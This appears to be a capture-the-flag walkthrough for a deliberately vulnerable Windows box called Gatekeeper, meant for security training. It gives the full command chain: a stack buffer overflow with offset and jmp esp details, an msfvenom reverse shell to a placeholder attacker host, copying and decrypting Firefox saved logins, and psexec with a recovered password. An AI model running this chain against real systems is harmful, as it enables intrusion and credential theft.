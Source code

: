 # Gatekeeper

### Tasks:

1. **Approach the Gates**:
   1. Deploy the machine and complete the task.
2. **Defeat the Gatekeeper and pass through the fire**:
   1. Start with usual nmap service scan - `nmap -sC ip` - 139,445(SMB),3389(RDP), 31337 (Elite ?) and many other RPC ports open.
   2. Enumerate SMB shares using `smbclient -L \\ip\` , There's a share called Users accessible without password. Connect to Users share using `smbclient \\ip\Users\` , `cd Share`, `get gatekeeper.exe`. Copy the binary to windows VM for simpler testing.
   3. `nc ip 31337` , There is a application which takes username as input and outputs 'hello username!!!'. This is the same application we got through smb.
   4. Open gatekeeper.exe in Immunity Debugger
   5. Run `ncat 127.0.0.1 31337` - you should get connected to gatekeeper locally.
   6. Generate a long string of 200 bytes using `python -c "print('A'*200)"` and feed that as input in ncat terminal for username , the application should crash which confirms bufferoverflow.
   7. Generate cyclic string of length 200 using [online tool](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) or using metasploit framework pattern\_create.rb and send the cyclic string as username this time and note the EIP when application crashes. - 39654138
   8. Enter the EIP register value in same [online tool](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) or use `!mona findmsp -distance 200` to find exact offset which breaks buffer - 146
   9. In [exploit.py](https://gist.github.com/jayateertha043/8f8d79f5bfd307632a51779f58f16932) replace payload with bad chars and run [exploit.py](https://gist.github.com/jayateertha043/8f8d79f5bfd307632a51779f58f16932), notice that we have control over EIP(42424242).
   10. Look for missing bad characters if any by following ESP stack dump. If any of them is missing or not in order, try removing them from payload and repeat till all the bad characters are in same order as sent. `Bad chars - \x00\x0a`
   11. Run `!mona jmp -r esp -cpb "\x00\x0a"`  to know jmp esp address - 080414C3 and convert to little endian `\xc3\x14\x04\x08` then replace it in retn variable of [exploit.py](https://gist.github.com/jayateertha043/8f8d79f5bfd307632a51779f58f16932) also assign `"\x90" * 15` to padding variable(NOPs).
   12. Generate payload using `msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKERIP LPORT=4444 -b '\x00\x0a' -f py -v payload` and replace the payload in [exploit.py](https://gist.github.com/jayateertha043/8f8d79f5bfd307632a51779f58f16932).
   13. Start netcat listener - `nc -nlvp 4444`
   14. Run exploit.py to get shell in netcat listener.
   15. `type user.txt.txt` to get user flag and submit. Also notice in desktop there is a file called Firefox.lnk , which suggests firefox is installed in the machine.
   16. `cd C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release`, `copy logins.json C:\Users\Share` , `copy cert9.db C:\Users\Share`, `copy key4.db C:\Users\Share` , `copy cookies.sqlite C:\Users\Share` - Now you can download these using smbclient to your local machine.
   17. _Clone this _[_repo_](https://github.com/unode/firefoxdecrypt.git)_ , Copy the 4 files to a folder called loot_, `python firefox_decrypt.py` `"LootFolderLocation"` - mayor:8CL7O1N78MdrCIsV creds obtained.
   18. Use `psexec.py mayor:8CL7O1N78MdrCIsV@ip` to login as mayor, type `whoami` - mayor seems to be system user.
   19. `cd C:\Users\mayor\Desktop` and `type root.txt.txt` to obtain root flag and submit !!!





